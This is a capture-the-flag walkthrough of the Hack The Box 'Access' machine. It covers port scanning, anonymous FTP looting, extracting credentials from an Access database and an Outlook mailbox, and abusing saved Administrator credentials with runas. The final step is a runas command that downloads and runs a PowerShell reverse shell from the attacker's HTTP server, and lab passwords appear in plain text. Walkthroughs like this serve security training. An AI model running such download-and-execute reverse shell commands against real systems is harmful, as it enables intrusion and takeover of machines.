

# [Access](https://app.hackthebox.com/machines/access)

```bash
nmap -p- --min-rate 10000 10.10.10.98 -Pn 
```


After knowing open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p21,23,80 10.10.10.98
```



Let's enumerate FTP via `anonymous` access.


I got `backup.mdb` file from 'Backups' directory however writing `bin` command to get big size file which is file belongs to 'Access'.


I use `mdbtools` commands set to enumerate this Access file `.mdb` file.

```bash
mdb-tables backup.mdb
```


From here, I export table called **'auth_user'** via `mdb-export` command.
```bash
mdb-export backup.mdb auth_user
```


engineer:access4u@security


I also found a file from Engineer folder on FTP service called 'Access Control.zip'

While extracting this file content, it asks a password from us, I type password which I found from Access file.
```bash
7x x Access Control.zip
```


There is `.pst` file which belongs to 'Microsoft Outlook'.


To read this folder, first we need to `readpst` commmand then, there is `.mbox` file and we need to read this via `mutt` command.

```bash
readpst Access\ Control.pst
mutt -Rf Access\ Control.mbox
```


Let's `telnet` into machine via below credentials.

security: 4Cc3ssC0ntr0ller


We can read user.txt also.


I just looked my stored credentials via `cmdkey /list` command and see 'Administrator' password is enabled and can be used via `runas` binary.


Now, it's time for reverse shell.

1.First, we need to write our reverse shell powershell script(Invoke-PowerShellTcp).


2.Then open http.server to serve this.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```


3.Then write `runas` command to get our malicious script.
```bash
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.16.6:8080/Invoke-PowerShellTcp.ps1')"
```


Hola, I got reverse shell from port (1337).


root.txt

